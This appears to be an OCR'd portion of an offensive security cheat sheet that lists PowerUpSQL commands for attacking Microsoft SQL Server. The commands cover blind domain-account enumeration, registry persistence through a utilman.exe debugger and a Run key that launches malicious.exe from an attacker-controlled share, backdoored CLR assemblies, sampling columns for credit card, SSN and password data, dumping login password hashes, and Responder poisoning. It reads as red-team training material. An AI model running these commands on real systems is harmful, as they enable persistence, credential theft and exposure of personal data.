   ```Get-SQLFuzzDomainAccount -Instance ComputerNAme\InstanceName``` --> PowerUpSQL Blind Domain Account Enum.  
All will be stored as SQL objects in the database and nothing will touch the disk

Example1:

  We could set up a debugger for utilman.exe, that will run cmd.exe when its called. Only sysadmins privileges.
  - ```import-module .\PowerUPSQL.psd1```
  - ```Get-SQLPersistentRegDebugger -Verbose -FileName utilman.exe -Command 'c:\windows\system32\cmd.exe' -Instance 'SQLServerName\InstanceName'```
  
Example2:

  We could leverage CurrentVersion\run to establish persistence with xp_regwrite. Only sysadmins privileges.
  - ```import-module .\PowerUPSQL.psd1```
  - ```Get-SQLPersistentRegRun -Verbose -Name legit -Command '\\attacker_controlled_ip\malicious.exe' -Instance 'SQLServerName\InstanceName'```

Example3:

  We could also export all custom CLR assemblies to DLLs, backdor any of DLLs and finally import the backdoored CLR. Only sysadmins privileges.
  - ```import-module .\PowerUPSQL.psd1```
  - ```$Results = Get-SQLStoredProcedureCLR -Verbose -Instance 'SQLServerName\InstanceName' -UserName sa -Password 'password' -ExportFolder c:\temp```
  - ```Create-SQLFileCLRDll -Verbose -SourceDllPath c:\temp\evil.exe```

**2.Identifying sensitive data**

Regular expressions can certainly assist in filtering data and then identifying sensitive information.

Example1:

  - ```import-module .\PowerUPSQL.psd1```
  - ```Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword 'credit,ssn,password' -SampleSize 2 -ValidateCC -NoDefaults```

Example2:

	Transparent encryption
  - ```import-module .\PowerUPSQL.psd1```
  - ```Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10 -NoDefaults | Where-Object {$_.is_encrypted -eq 'TRUE'}| Get-SQLColumnSampleDataThreaded -Verbose -Threads 10 -Keyword 'card,password' -SampleSize 2 -ValidateCC -NoDefaults```
  
**3.Extracting  SQL Server login password hashes**

Using Get-SQLServerPasswordHash to extracting the SQL login passwords hashes

  - ```import-module .\PowerUPSQL.psd1```
  - ```Get-SQLServerPasswordHash -Verbose -Instance 'SQLServerName\InstanceName' -Migrate```

## Poisoning the SQL Server Resolution Protocol

We should be aware of the fact that the [SQL Server Resolution procotol](https://msdn.microsoft.com/en-us/library/cc219703.aspx) could be poisoned, forcing authentication to a server under our control.

  - [Responder](https://github.com/lgandx/Responder/pull/58)
  
# References:

  ```